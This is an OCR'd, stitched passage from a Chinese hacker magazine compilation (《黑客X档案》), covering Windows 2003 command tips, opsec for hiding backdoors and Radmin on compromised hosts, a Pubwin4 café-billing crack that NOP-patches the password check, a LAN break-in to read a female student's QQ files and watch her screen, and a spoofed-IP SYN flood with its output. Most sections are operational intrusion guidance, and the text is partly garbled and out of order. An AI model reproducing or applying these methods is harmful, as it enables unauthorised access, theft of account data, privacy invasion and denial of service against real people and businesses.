c:\WINNT\Santa Fe Stucco.bmp
c:\WINNT\winnt.bmp
```

可以看到所有符合条件的文件都列了出来。

2. 我要搜索 d:\lihe 文件夹（并包括其子文件夹）下所有的 EXE 文件和所有 DLL 文件。键入命令 where /R d:\lihe *.exe *.dll，这类搜索的格式为：where /r 目录名 文件名1 文件名2…文件名N
要注意的是，不同的条件要用空格分开。键入这个命令后返回了 d:\lihe 及其子文件夹下所有的 exe 文件及其 dll 文件，如下：

d:\lihe\download\EECHINBSE.EXE

d:\lihe\download\war3china.exe

d:\lihe\hacker\进程\PSAPI.DLL

总之，这个命令的功能和速度还是比较令人满意的。

## shutdown

命令简介：一看大家就知道了，用于关闭或重启本地和远程的计算机，相当与我们常用的REBOOT工具。
参数：不支持标准参数。
/ i  显示图形界面的关闭程序，一般用于远程关机，如果要使用该参数必须将其放在第一项。
/ S  关闭计算机。
/ R  关闭并重启计算机。
/ P  关闭本地计算机，没有警告和延时，必须和/d参数一起使用。
/ D XX:YY  提供重起或关闭的原因。其中XX、YY均为正整数，一般来说XX介于0到7，YY介于0到20，其对应的原因可用shutdown /?命令查看。
/ C "原因" 自定义关机原因。
/ M \\IP 指定远程的计算机。
/ T  数字  设定延迟的时间，范围0~180秒之间。

### 使用示例

首先需要说明的一点是，Win2003要求关机或重启一定要有原因，在命令行下也不例外。

#### 1．远程关闭或重起计算机

虽然命令行下有/M参数可选择计算机，但我还是建议使用/I参数调用图形界面。当然，你要先用管理员帐号和远程计算机建立IPC连接。


首先键入命令shutdown /i调出图形界面（图1），点击上面的添加按钮，在弹出的对话框输入远程计算机的IP地址，下面选择是关闭还是重启，“警告用户关机”选项不要选，否则关机时对方的计算机桌面会出现警告对话框，上面提示剩余关机时间以及发送此关机命令的计算机和用户（由于此时截屏键已失效，所以无法截图）。在最后关机原因的注释中随便填写内容，点“确定”即可。远程的计算机就搞定了！
若你的计算机出现关机时间倒计时，但你改变主意了，那么键入命令shutdown /a就可取消这次关机。

> 每次的关机和开机在Windows的日志记录中都有详细记录，包括发送关机命令的计算机、用户和关机时间、原因。

#### 2．关闭和重启本地计算机

键入命令shutdown /s即可本地关机，但是在倒数30秒后关机，并且在桌面上弹出一个倒计时窗口，如果30秒内键入命令shutdown /a，就会取消这次关机。键入命令shutdown /r即为关闭并重启计算机，同样是在倒数30秒后，并弹出一个窗口，取消的方法也是一样。
这样弹出一个对话框很不好，有没有更隐蔽的方法呢？当然有！使用/p和/d参数！
/P参数只是用于关闭计算机，虽然微软自己说必须和/d参数一起使用，但我在实际使用中发现单独使用就可以。我们键入命令shutdown /p，计算机就会关机。但我们很多时候用到的是重启命令，借助另一个参数/t，它可设定等待时间，我们只要把重启时间设为0秒就可达到不弹出延时窗口的目的。/t参数后加数字即为延时的秒数，键入命令shutdown /r /t 0就会立刻重启。

## CACLS

命令简介：这个命令是使管理员或当前用户成为文件或文件夹的拥有者，恢复管理员对文件和文件夹的访问，很多时候管理员喜欢把某些文件夹设为只读，一般我们都是在Windows界面下对权限进行修改，现在在命令行里就可搞定！


参数：标准参数
/ F FILENAME 指定文件夹或文件
/R 递归模式，使该命令应用于指定文件夹的子文件夹和文件。
/A 将文件的完全控制权给管理员组而不是当前用户。
/D PROMPT 抑制模式，如果一个用户对指定文件夹没有列出权限，屏幕上就会问是否赋予该权限，有了这个参数，就会根据PROMPT来自动返回信息。有效值Y或N。

### 使用示例：

现在有f:\lihe\文件夹及其子文件夹去掉了任何权限（图2），我们将在命令行下赋予当前用户完全访问权限。
切换到命令行，键入命令takeown f:\lihe /r，表示当前用户对f:\lihe文件夹及其子文件夹拥有完全控制权限，由于我们去掉了该文件夹的所有权限，屏幕会有如下提示：

> 您没有权限阅读目录“f:\line”的内容。
您要用授予您完全控制权限替换目录权限吗(确认请按“Y”，否请按“N”，取消请按“C”)？：

我们键入Y，屏幕就会显示当前的进度，如下：

> 成功：此文件(或文件夹):“f:\lihe\download2”现在由用户“HOME-XUCWOTCD\F\M\Administrator”所有。
成功：此文件(或文件夹):“f:\lihe\hacker”现在由用户“HOME-XUCWOTCD\F\M\Administrator”所有。
成功：此文件(或文件夹):“f:\lihe\pdoe”现在由用户“HOME-XUCWOTCD\F\M\Administrator”所有。

最后我们可以看到，ad-ministrator对该文件夹已经拥有完全控制权了（图3）。
要注意的是，因为我用的当前用户是administrator，所以默认赋予他权限，如果将权限赋予整个管理员组，那么加上参数 /a，即键入命令takeown /f f:\lihe /r /a。
你可看到该文件只有当前用户一个人有访问权限，任何组和用户原先拥有的权限都被去掉了，所以这个命令有排他性。


由于这两个命令在Win2000的资源工具中有所介绍，所以在此就省略了，有兴趣的朋友可看看以前的《黑客X档案》。
总之，Windows 2003新增的命令行工具还是很多的，功能也很强大，我只挑了一些有帮助的命令简单的讲解了一些，如果你还有新的发现不妨在X档案的“补丁铺”里讨论，也可在X论坛(http://www.hackerxfiles.net/bbs)发表见解，让我们一起完善！

## 小问题大隐患

古人云：小处不可随便，这句话用到入侵中同样适用。很多人入侵时忽略了一些小问题，轻则入侵失败，重则暴露自己！正所谓一着不慎满盘皆输。在这里我就提几个大家经常忽略的小问题，希望能引起大家的重视！

### Radmin的安装问题

我想很多人都用过Radmin吧！它有一个优点，就是不会被杀毒软件查杀！但我发现很多人在给肉鸡安装Radmin时忽略了一个小问题，这个问题带来的后果是很严重的。一般安装Radmin的步骤是先导入注册表然后再安装，很多人安装Radmin时直接输入命令：Radmin /install（《黑客X档案》2003年12期上有篇文章就是这样操作的），这样做的后果就是直接暴露自己！因为这样安装在肉鸡上会出现一个对话框“远程管理服务已经安装”。为了说明情况，我先登录远程终端，然后在自己的电脑上开一个3000端口的shell，再在自己的电脑上安装Radmin，结果如图1所示，我的电脑上出现了上面提到的那个对话框。
正确的安装方法应该是这样：Radmin /install /silence，后面的这个参数就是隐藏安装的意思，这样就安全多了。


### 1.远程终端的注销问题

这个错误我也曾犯过，所以写出来给大家看看，希望历史的悲剧不再重演！当我们登陆上3389终端机，完成想做的操作后，不知大家是怎么撤退的。我当时是直接关闭的终端，其实这样做是错误的！当对方关闭计算机时，会出现一个“有其它用户登录到该服务器。如果继续，将终止这些用户的会话过程并且可能造成数据的丢失”的对话框（图2），正确做法是点击“开始→关机”，选择“注销”来退出肉鸡！当然你也可以用query user来查询自己的会话ID，然后再执行logoff 会话ID进行注销（图3）。

Base64 编码过的密码以明文显示出来。所以图简单的朋友，可直接用 Xsniff 来抓取。现在知道厉害了吧！所谓害人之心不可有，防人之心不可无啊！简单的解决办法是让密码在本地保存，即使不幸被管理员发现了，你在其他电脑上的战果也不至于受到损失！

### 2.使用克隆管理员帐号登陆终端的问题

克隆帐号已经不新鲜了，地球人都知道：克隆帐号有和管理员一样的权限。但不知道大家注意一个问题没有？就是我们和管理员共用一个桌面，而且我们在桌面上做的操作，管理员能清清楚楚的看到，比如我们在桌面上新建一个文件或删除一个文件，管理员都能看见。问题出来了，很多程序的安装默认是要在桌面上添加快捷方式的，所以无形中就泄露了秘密！同时还要注意的是，你浏览网页留下的 URL 管理员也能看见。所以利用克隆帐号上终端是相当危险的。本来千辛万苦的克隆一个帐号是为了更好的隐藏自己，没想到就这么不知不觉的把自己给暴露了出去，所以请大家一定要当心啊！


我们要注销guest这个用户的话，可以执行的操作为logoff 1或者logoff rdp-tcp #2。这样才是正确退出3389终端的方法！

### 一、隐藏后门的原理

很多人入侵的目的是为了盗取密码，什么QQ 密码呀？传奇密码啊！很多盗密码的软件一般是让你填写一个邮箱帐号，以后就把密码发送到这个邮箱里，但这样做也是很危险的。有相当大一部分盗号软件在发送密码（包括你邮箱的密码）是采用Base64的编码方式传输的，包括 QQ 杀手、QQ 密使之类。Base64 是网络上最常见的用于传输 8 Bit 字节代码的编码方式之一，但这种编码很容易就破解了！只要管理员发现自己的电脑出了问题，彻查电脑时发现你的软件的话，你就亏大了。你说你可以新申请一个邮箱，不过你在其他电脑上窃取的密码也在这个邮箱里面，那么辛苦到头来还是不是为人做嫁衣裳，不值得啊！

为了更好的说明情况，我安装了一个 QQ 盗号软件，然后用 CommView 来本地嗅探，请大家看我的嗅探结果（图4），从图4中我们可看出邮件是从sichuandaxuexiu@21cn.com 这个邮箱发出的，接收邮箱也是它，而密码是MTk4MTE4，不过这个密码是经过 Base64 加密的，解密出来就为198111（图5）。


在我用了多个嗅探器之后，发现 Xsniff 可以直接把嗅探到的

### 四、服务后面的脆弱问题

前不久，SERV-U溢出漏洞刚出来时，我进入了一台梦寐以求的服务器，刚准备留后门时，发现了一个问题，这台电脑已经被人抢先一步了，大家请看我的截图（图6），上面赫然出现了DameWare NT Utilities 2.6 的字样！我很是郁闷，他怎么能那么马虎啊！这里我谈谈后门的简单伪装吧！

要先区分 5 个概念：程序名、进程名、服务名和服务显示名以及服务描述，一般情况下，这里说的服务名和进程名是相同的，其中，程序名就是在任务管理器“应用程序”里看到的程序名，要改程序名直接改程序的名字就可以了；而进程名则是在任务管理器“进程”里面看到的名称，要改变进程名我们可以通过16进制编辑器来改，比如UltraEdit等；服务名和服务显示名以及服务描述则是在管理工具“服务”里面看到的，就上面的图6来说吧，DameWare NT Utilities 2.6为服务显示名，DNTUS26为服务名，服务描述为空。很多人不知道启动某项服务是在net start后跟服务显示名还是服务名，我可以告诉你，两者都可以。

这里还要注意的是，当你用 net start 服务显示名来启动服务时，服务显示名中出现空格的话，需要用引号括起来才能启动！我们单独用 net start 命令来查看启动服务时，看到的也是服务显示名。

好了，我们现在来说说怎么改变服务名和服务显示名以及服务描述吧！lcx在《黑客X档案》2003年11期上给大家介绍过一个脚本——instsrv.vbs，这个脚本可把程序安装成自己指定服务名和服务显示名的服务，安装命令请大家参考脚本的帮助！

最后再来谈谈服务描述的修改吧！服务一般把服务显示名和服务描述放在注册表的HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\下。还是说刚才的例子吧，DameWare NT Utilities 2.6 把它的服务显示名和服务描述的信息放在HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNTUS26下，其中有两个关键的键值："DisplayName" 和 "Description"，放的就是服务显示名和服务描述。我们只需把里面的内容改了就OK了，但有的服务是没有描述的，特别是后门程序，本例就是。遇到这种情况我们就自己新建一个字符串值"Description"，在后面写上自定义的描述，这些操作你全部都可命令行下完成，也就是一个注册表导出→修改后再导入的过程。修改完上述5个东东后，我想你的后门或者木马要安全多了吧！

以上所说问题虽小，但大家绝对不能忽视，所谓千里长堤，溃于蚁穴也是这个道理！其实入侵中出现的小问题很多，只要大家多留心，很多问题是可以解决的，实践是检验真理的唯一标准，大家以后在入侵电脑时，特别是要用到什么新工具或新方法时，最好在本机上试验一下，以做到万无一失！

（本文提到的 Radmin 光盘中有收录）


黑客X档案2003 2004年合订本(下册)


# Pubwin4 攻防实战

Five222

Pubwin4——航母级的网吧管理软件，它的身影几乎遍布全国，网吧老板对Pubwin4的安全与便捷性赞赏有佳，这可苦了我们这些劳苦大众！

下面我们先了解一下Pubwin4。Pubwin4有三个线程，分别是：pubwin.exe UDP 1027、Pubwin.exe UDP 18021、Reclock.exe TCP 18041（图1）。


图1

Pubwin4每3分钟一刷新，即使你使用一些快捷键进入了系统，也躲不过系统的3分钟刷新，与Pubwin4的“八年抗战”就此开始。首先，你看到的是Pubwin4的登陆界面（图2）。

我们的突破口已经出现：

- （1）用户登录。要么你刷卡/敲进帐号密码，要么让pubwin4不用帐号就登进去，这可能吗？
- （2）系统管理。需要管理员密码的，网管是你女朋友？那太好了，可我没这么好运气。
- （3）利用pubwin4自身的系统漏洞，比如有什么热键没被屏蔽（ctrl+alt+del等）。

这三个突破口当中管理员密码是最诱人的，做网管还不是想怎么样就怎么样。

## 一、管理员密码篇


图2


图3

记得去年《黑客X档案》某期一位仁兄介绍了使用Winhex得到管理员密码的方法，当时只给出了密码在内存中的地址，可pubwin4每升级或打次补丁，它的地址就变一次，那地址可是成千上万条，难不成我还一个一个找？胡子都白了（没看过这篇文章的读者往下看也可明白）。

“授之于鱼不如授之于渔”！pubwin4打了补丁那我们就也“打补丁”吧！

首先，找一台没有装pubwin4的机器，装上pubwin4，打上你想破解的那个网吧版本的补丁。开始默认管理员密码为空，我们可以改为“icelark”。然后，打开Winhex，依次执行如下操作：菜单栏工具→Ram编辑器→选择pubwin→双击主要内存（图3）。

然后再查找“icelark”或“lark”，你就可看到管理员密码所在的那一行（图4）。


图4

即在当前版本下管理员密码出现的地址为“0043CD20”。以下是我一年多来收集的pubwin4管理员密码出现的地址：

```
`pubwin4.2.x.x 004300D0/0043CD20`
`pubwin4.3.0.x 006A4660/00654650`
```

我现在见到的pubwin最高版本是pubwin4.3.0.7，如果以后有变更，我会及时发在论坛上的。

由于我从不别对人保密，以至于我的同学经常用管理员密码登陆，时间长了，网吧老板也怀疑网吧为什么有那么多机器处于管理员状态，有好几次都……看来什么方法都有利有弊，下面我要介绍的方法可是看家本领，通吃五湖四海各大网吧和各大计费系统。

## 二、Pubwin拦截篇

记得网上曾流传一种方法，可实现近似免费上网的目的，即先用帐号登陆，再用网络剪刀手切断本机与外界的联系，然后换机结帐。这种方法在pubwin早期版本或其他计费系统中还可以，大不了只玩单机游戏，但在pubwin4.3.0.0以上版本中，系统的多线程和3分钟刷新就突显其威力，还没玩一会儿，pubwin就把你从游戏中退出。


图5

那有没有即牢牢控制住系统，又不切断网络的方法呢？当然有，上面曾提到pubwin有3个线程分别对应3个端口，我们可一方面封锁其端口，一方面禁止其运行。

# 傻瓜黑客

明白了吧！不明白？用防火墙，网上的众多防火墙软件中，经过我大量实验发现ZoneAlarm V3.7.202的稳定性和使用便捷性是最好的。ZoneAlarm可对系统中任一程序对外连接时先行拦截，也可在外界对本机发出某些指令（如pubwin关机/截图等指令）时先行拦截，图5即为服务端发出的关机指令被拦截时防火墙的反应。


图6既为本机的pubwin.exe在3分钟的刷新中欲与服务端联系时防火墙的反应（遇到上面或下面的情况，可在复选框内打勾，点“OK”）。


下面我们来具体操作。首先，用帐号登陆系统，下载并安装ZoneAlarm V3.7.202，建议安装时选择图7的配置。除了ZoneAlarm外，木马克星的效果也可以。如果你使用其他防火墙，当出现图8所示的提示框时，说明这个防火墙还不适用，因为点了确定pubwin就又要你登陆了。


建议使用此方法时不用管理员密码登陆，毕竟一块（五毛）并不多，好歹我们也出点电费呀：）

### 三、本地密码破解篇

本来我写到上面也就差不多了，可看了2004年第2期《黑客X档案》上真实朋友写的文章《本地密码的密码问题》又有了想法，感觉他介绍的方法也对pubwin适用。其实也就是管理员密码的分类破解，下面我介绍一下。将Pubwin.exe拷入一份目录，打开W32Dasm，点击“反汇编”，选择备份目录中的Pubwin.exe。等反编译结束后，点击“参考”，选择“字符串数据参考”，找到“口令错误，请重新输入”，如图9。


双击后向上翻页，来到图10所示的地方。其中，“85c0 test eax，eax 7509 jne 0040f1a5”为密码验证语句，若密码不对则跳转，我们只须将7509改为9090即可，因为9090代表执行两次NOP，即什么都不做，密码不对也就不跳转了。


将W32Dasm关闭，运行Ultraedit32，打开Pubwin.exe，查找“85C07509”，将其替换为“85C09090”。再查找下一个，再改为“85C09090”（图11）。然后将其保存为“Pubwin.exe”和“pubwin.pub”。


但pubwin是在后台运行，又是多线程保护，要先终止再替换很麻烦。那就用Ultraedit32打开pubwin.exe，点击菜单中的“查找”→“替换”，在“查找内容”中填上“pubwin”，替换为“中填上4个中文字或8个英文字母，不然会出错，替换完后保存即可。


然后再用管理员密码登陆时，就随便填几个字母，就进入系统了，如图12。至于做像《本地软件的密码问题》那样的跳过管理员密码的软件，大家可依葫芦画瓢参照制作，这里我就不再赘述。

# 傻瓜黑客

## 四、旁门左道篇

“条条大路通罗马”，方法是不止一种的，pubwin在我们那里一年多了，朋友们也总结出了其他方法，尽管有些方法可能成功率不高或不适用于你所在地的版本，但本着学习的态度我们还是了解一下。


1. 智能ABC漏洞。在用户登录的帐号框内切换到智能ABC输入法，输入“v”时按一下向上键，再按一下Delete键，再按一下空格就可关闭pubwin了。或随便输入一个字母，按一下向上键，再按一下Delete键，然后再按一下空格。按几下删除键也可达到同样的效果，如图13。这种情况下，需要注意的是，不要点“确定”，直接拉下提示框的话，鼠标点不动桌面上的图标，需要你用热键（开始键）启动程序。如果你的热键也被屏蔽了，那只有说“下次吧！”。


2. 在刚进入Windows界面pubwin还没有启动时，狂按“Shift+Ctrl+开始”键，如果pubwin没有出现出错的提示框（图14），就再多按几次Caps Lock、Alt、Tab、空格键吧！总之，一句话，狂拍键盘左下脚，但不要被网管听到哟。记住，不要点“确定”，直接拉下提示框，慢慢玩吧！
3. 狂按“Ctrl+Alt+Del”，如果没有见到pubwin出错，再反复“注销”几次，如果你真的命好，就会出现上面第2种方法出现的画面。

### 五、意外收获

一次，我在某网吧以管理员身份登陆后，发现其“系统设置→系统参数”中有“服务器IP地址”（图15）。由于以前我曾安装过pubwin的服务端，其数据库地址一般是\\\\服务器IP\\Database\\。于是我执行“开始→运行→\\\\192.168.0.251\\Database”后，就看到了图16的登陆界面，我使用L0pht (NT口令破解工具v4.0，效率相当高，可在安全焦点(www.xfocus.net)下载）破解其口令，得到了信息：“UserID:admin Pass:aaa”。


进入其数据库文档后，会看到4个数据库文件。其中，Member.mdb是此网吧的会员详细资料，经过破解，其数据库密码为“ajsgamrbg3721md”(我后来在其他网吧下的数据库密码也是如此，猜想可能是其默认密码)，其中包括会员的帐号、密码、住址、E-mail、帐户余额等信息（图17）。


至于提高权限改写数据库，大家就自己做吧！但我并不鼓励，毕竟学习才是我们的目的。

## 六、总结

通过以上实例，可看出其中并没有很高深的技术，而只是通过别人的事例举一反三后的结果。正如《黑客X档案》某期的封底所说的“Hack不能缺乏想象力”。相信我们中有人比我更了解pubwin，希望有机会大家可在论坛上交流。
我个人认为，pubwin今后的破解之路将会在“欺骗”上，我在写文章收集资料时，有人提到使用类似于游戏外挂的手段，编辑一个假数据包回应主机，从而给主机一个假象。可以说是完美，可惜联系不到作者，希望读者朋友中有人能作出这样的“pubwin外挂”。

（本文用到的以下软件光盘中有收录：Winhex、W32Dasm、Ultraedit32、ZoneAlarm V3.7.202、L0pht）▉

# 傻瓜黑客

局域网的安全问题一直倍受关注，局域网的最大优点就是网络资源共享，但同时也存在着重大的安全隐患。再加上人为设置上的缺陷，其安全系数大打折扣。学校为了学生能更好的学习，一开学就在我们学生公寓区新建了一个大型计算机房，这不仅方便了广大学生上网，同时也给了小菜鸟们一个学习和实践的机会。以下就是我在机房针对局域网不安全设置的一次简单测试。

测试内容：Win2K默认硬盘共享、获取Win2K本机当前管理员密码、局域网密码设置缺陷（局域网内各计算机密码相同或相似）、局域网硬盘映射验证缺陷（用户名和密码相同可以不需验证，直接映射）。

测试目标：进入局域网任意机器硬盘、浏览文件夹获得所需的文件、并监控局域网内计算机的屏幕。

具体方法及步骤：我们以进入一MM的计算机为例，获取其QQ号码、聊天记录及其密码信息，并监控其屏幕。

## 一、选择目标机

当然，要选择一个漂亮值高的！呵呵，我们记住PLMM的计算机名（其实我们学校机房里的显示器上标有计算机名和本机IP），然后用ping命令获得其IP地址（理论上用计算机名就可做到硬盘映射，但在实践过程中其成功率明显不如用IP高，推荐使用IP）。

## 二、映射硬盘

右击“我的电脑”，在右键菜单中选择“映射网络驱动器”（图1）。


然后会弹出图2的窗口。在“驱动器”框里将PLMM的硬盘映射为我们网络硬盘的盘符，这里我选的是F：盘（即将PLMM的硬盘映射为我本地机的F盘）。

在下面的“文件夹”后按如下格式填写：\\\\server\\share$（server代表的是PLMM的计算机，share代表的是其打开的共享资源，$的意思就是隐藏共享）。

# 外挂局域网

kuang110/阿译


图2

看看图2，我这样设置的意思是：将IP为10.200.32.185的计算机共享的C盘映射为本地机的F盘（如果要映射她的D盘，可在“文件夹”里这样写\\\\10.200.32.185\\d$）。然后点击“完成”开始映射。

在这里，如果本机当前用户名及密码与所要映射的计算机用户名及密码相同（这是学校为了方便管理，机房留下的局域网密码设置缺陷），那就不会提示输入用户名和密码。如不相同，则会提示输入用户名和密码。之所以会成功，是因为在Win2K中默认所有硬盘为共享的（这就是我们所说的Win2K默认硬盘共享和局域网密码设置缺陷）。

## 三、浏览硬盘，寻找我们所要的文件

映射成功后，在本机上会显示出PLMM的硬盘。我们可见C盘是她的系统盘（图3）。


图3


图4

好了，现在我们就可以开始寻找所要的文件了。想要什么文件呢？我们知道，登录QQ时会在QQ安装目录下自动生成一个以你QQ号为文件名的文件夹。嘿嘿！如果我们找到它，那不就……开始行动吧！我们可搜索那个文件夹。呵呵，不过我不用那么麻烦去找了（在QQ的默认路径下很容易能找到我们想要的东西）。如图4。

嘿嘿！看见了么？还等什么呀！当然是（我不说你也一定想到了吧！）……

## 四、查看详细资料

看看她的资料吧，可以侧面了解一下，呵呵！看看是不是老乡？20岁了，比我小一岁，原来是个小妹妹呀！河南的（图5、图6）。看来不是老乡了（哦！对了！俺是黑龙江的）。


图5


图6

## 五、获取QQ聊天记录、QQ密码

我们想要得到的已经到手了，现在就要做善后工作了，要记得断开连接（万一MM也是高手，那你就惨了呀）。日志文件就不必管了（因为我们学校有硬盘还原卡，重新启动时就会还原成原始状态），什么？你还想知道更多！想知道MM的聊天记录，还想知道QQ密码……这样可不好呀！可不是我们的一向作风，不过在技术上是完全可以实现的。

如果想看她的聊天记录，将那个以她

# 傻瓜黑客

QQ号码为文件名的文件夹下载，再用里面的***.db文件来覆盖自己QQ文件夹里的同名文件，然后在本机离线登陆自己的QQ，查看聊天记录，你会惊奇的发现，你的好友和聊天记录都变成她的了，不过这属于个人隐私，还是少做的好！

如果要想知道她的密码，方法就有很多了。可利用她QQ号码文件夹里的***.db文件（因为关于密码的信息就写在这里面），先用它覆盖自己QQ文件夹里的同名文件，上网下载一个QQ密码离线暴力破解程序爆破，也可随便用一种带有键盘记录的木马来实现，如：冰河.风雪……

下面我们再聊聊如何获取Win2K本机当前管理员密码和监控局域网内的计算机屏幕。

### 六、获取Win2K本机当前管理员密码

现在我们来聊聊如何获取Win2K本机当前管理员密码。为方便管理，局域网计算机密码一般都相同，如果我们知道了本机密码，就等于获得了所有计算机的密码，控制局域网就方便多了。

我们需要用到findpass.exe工具，如图7。


具体步骤：这个程序是在命令提示符下运行的，所以首先打开命令提示符窗口（开始→运行→CMD→确定）。然后进入程序存放目录，运行程序。如图8。

这样就可看见本机当前管理员用户名及密码了。好了，在知道密码后，我们还有什么不可以做的呢？


### 七、控制局域网内的计算机屏幕

现在我们再聊聊如何控制局域网内的计算机屏幕。首先要知道被控计算机的IP或计算机名及用户名、密码。由于上述局域网密码的设置缺陷，我们可使用与本机相同的密码进行连接。

我们要用到的工具是Omniquad Instant Remote Control v2.2.8，如图9。按说明安装程序。

具体步骤：运行程序，会出现图10所示界面，然后按情况选择适当选项。看！我这里选择的依次是：Window NT/2000/XP Profession（这是指远程主机的操作系统），再选“IP Address”，然后填上你要控制的计算机的IP地址。接下来我们可保持默认选择，下面的选项意思分别是：“改变默认端口”、“只监视不控制”、“上传OIRC文件”、“使用本机密码连接”、“清除历史记录”。


好了，设置完成后。我们点击左上方的“Remote Control”进行连接，连接成功后会出现在远程计算机的屏幕，如图11。


看见了！原来她正在写小说！嘿嘿！我们可以瞧瞧！

下面我们来介绍一下该程序的其他功能，在远程计算机屏幕上方我们可见六个快捷键，下面来看看它们有什么作用吧！


第一个快捷键：全屏监控，如图12。

第二个快捷键：颜色设置，如图13。

我们可选择16色还是256色，这要看网速和网络状况了。如果是宽带网络状况良好，就选256色，如果是用猫上网推荐选择16色的，这样50几K小猫才能承受得了。

第三个快捷键：文件传输，如图14。它的功能是打开远程计算机的FTP上传或下载文件（图15），填入用户名和密码后，点击“Login”登陆远程FTP。


第四个快捷键：控制切换。它可切换控制和监视，当它处于按下状态时是控制，弹起状态时是监视。建议先使用监视状态，这样可先观察对方在做什么，然后再视情况选择控制。

第五个快捷键：锁定屏幕。

第六个快捷键：发送“Ctrl+Alt+Del”。相当于在远程计算机键盘上按下了Ctrl+Alt+Del键，效果如图16。


好了，就先聊到这里吧！相信通过这次学习，你对局域网一定有初步的了解，这样的小型网络在日常生活中可经常见到，如：学校机房、网吧、社区小型网络等。而密码设置缺陷则广泛存在于学校机房和网吧中。

（本文提到的以下软件光盘中有收录：findpass, Omniquad Instant Remote Control v2.2.8）


# 傻瓜黑客

### SYN flood 攻击的防范之我见

我时常在想，攻击到底是对还是错呢？前一陈子有人问我为什么 DOS（拒绝服务攻击）很难成功？经过一番思考后，我决定写这篇文章。想要得到些什么就得失去些什么，人总是要做出选择的，婴儿脱离母体是一个痛苦的过程，但获得的却是一个鲜活的生命。

“没有破坏，就没有建设”。本文说明的问题有两个：一是如何检测一个主机是否能进行 syn flood 攻击；二是攻击时伪造的 IP 地址如何设置。这些在本文中都有说明！写文之前，我先用 CAD 画了一张图（图 1），简单的阐述一下为什么有些肉鸡可以进行 DOS 攻击，而有些却不能。以下所有 IP 均为假设。


我们这里需要用到的软件有 xdos.exe，以及 Win2k 本身自带的 netstat 命令，xdos 在攻击主机上运行，netstat 在目标机器上运行，格式分别为：

xdos 目录 IP 端口 1,端口 2 -t 线程数 -s 伪造 IP 源地址

netstat -an|find ":攻击端口"

其实攻击的工具并不一定是我介绍的xdos.exe，看明白道理后，用任何一种工具都可做到，例如红盟 Lion 写的工具，效果可能更好。

例如：xdos 61.128.100.2 80 -t 8 -s 218.150.200.1（在攻击主机运行）

netstat -an|find ":80"（在目标主机运行）

假设我们从 218.150.100.1 去攻击 61.128.100.2 这个机器时，用 sniffer 一类的软件对 218.150.100.1 机器所发的数据包进行检测，查到源地址是我们所造的假 IP，但这时并不表示你已经可以进行攻击了，因为有时你会奇怪的发现以下三种情况：

- 1. 对方机器毫无反映，用 netstat 命令检测时，也没有发现多余的连接。
- 2. 在目标主机上使用 netstat 命令检测时，你伪造的源地址竟莫名其妙的变成了你的真实 IP 地址。
- 3. 在目标主机上发现大量连接，并且在你所伪造的 IP 段内连续的变 化，这就是我们想要的结果了。

近年来，由于 DDOS 攻击的猖獗以及攻击手法的简单化，使大多数不需要懂太多计算机原理的人就可以完成攻击。只要会用鼠标就可以攻击，这种现象确实很可笑，由此可见，所以 ISP 及硬件生产厂商均有不同的对策来抑制这种情况。由于我们都没有进入过电信机房去研究哪些设备，所以并不了解他们的运作情况，但可以肯定的说，原因就出在那里。例如：我们得到了 218.150.100.1 这台主机，而他的 ISP 所拥有的 IP 范围是 218.150.x.x-218.180.x.x，根据上述列出的三种情况判断，ISP 可能做出的设置如下：

- 1. 不允许 218.150.x.x-218.180.x.x 范围内所有机器发出非本 IP 段源地址的数据包，一旦发现全部过滤掉。
- 2. 发现 218.150.x.x-218.180.x.x 范围内如有非本 IP 段源地址发出的数据包，将其转成真实 IP 地址并发出去。这时进行攻击就很危险，一是暴露了自己（警察抓到你时可别怪我事先没告诉你），二是进行 Syn Flood 攻击时，攻击机器的 CPU 使用率都会接近 100%。而在不断的攻击目标主机的过程当中，由于你的 IP 地址真实了，就会进行三次握手的 过程，这时你除了本身需要不断的发出数据包外，同时还要接收从对方反弹回来的连接，我想首先死掉的应该是你的机器，很多人都遇到过这种情况。
- 3. 这时也有两种情况，一是允许 218.150.x.x-218.180.x.x 范围内的主机发出属于本 IP 段的源地址数据包，并不检测与主机真实 IP 地址是否一致；二是没有任何限制，这也是最理想的了，而且目标主机很难查出你的真实位置，因为你伪造的 IP 可以是任意的，他们需要一个结点一个结点的反 过来查你，我想那需要很多方面的配合才能办得到。

其实上述所说的过程，已经告诉大家，当得到一个主机时如何去检测它是否能进行 DOS 攻击，那就是：用另外一个 IP 段的主机做为目标去检测。

现在用我自己手里的一台主机（韩国）做为攻击主机，而拿我的服务器做为目标主机去承受攻击。如图 2。

当我们没有攻击时，发现 80 端口的连 接很少（嘿，我的网站很少有人访问的）。如图 3、图 4。

```
C:\Documents and Settings\Administrator>netstat -an|find "80"

TCP 218.25.243.57:80 0.0.0.0:0 LISTENING
TCP 218.25.243.57:80 221.208.48.131:1039 ESTABLISHED
TCP 218.25.243.57:80 221.208.48.131:1042 ESTABLISHED
TCP 218.25.243.57:80 221.208.48.131:1084 ESTABLISHED
TCP 218.25.243.57:80 221.208.48.131:1626 CLOSE_WAIT
TCP 218.25.243.57:80 60.14.193.198:40006 CLOSE_WAIT

C:\Documents and Settings\Administrator>netstat -an|find "80"
```

图 2

```
Scanning www.xxx.com 88 ...

Remote host: www.xxx.com (61.151.243.8)
Local address: 218.150.100.1

MSG mode: SYN FLOOD
Thread count: 8

...

C:\Documents and Settings\Administrator>xdos www.xxx.com 80 -t 8 -s 218.150.100.1

xdos 61.128.100.2 80 -t 8 -s 218.150.200.1

[=============================]

Scanning www.xxx.net 88 ...

Remote host: www.xxx.net (218.25.243.57)
Local address: 218.150.100.1

MSG mode: SYN FLOOD
Thread count: 8

...

C:\Documents and Settings\Administrator>
```

图 3

这时已经开始攻击，只攻击数秒我就停止了，不然我的网站服务器会死掉。大家注意参数“-s 218.150.1.1”，目标主机上多出大量的 218.150.1.x-218.150.1x.x 范围的连接，这时攻击已经成功了，我的 web 无法访问。如图 5、图 6。

```
TCP 218.25.243.57:80 218.150.1.1:1957 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1472 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:2227 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1642 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:2229 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1663 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:2475 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1783 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:2485 SYN_RECEIVED
